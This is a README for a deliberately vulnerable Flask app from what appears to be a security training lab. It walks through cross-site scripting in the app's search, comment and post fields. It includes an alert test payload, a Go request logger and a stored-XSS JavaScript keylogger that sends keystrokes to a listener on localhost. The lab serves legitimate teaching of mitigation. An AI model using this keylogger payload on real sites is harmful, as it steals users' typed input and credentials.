








# Gossip World

<p align="center">
    
</p>

Gossip World is a simple Flask app that contains an example of multiple Cross-Site Scripting vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][App] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   
   

Adding a new comment to a post:
   
   

Adding a new post:
   
   


The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:



The attacker now gets all the input on the server log, as shown below: 



## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10007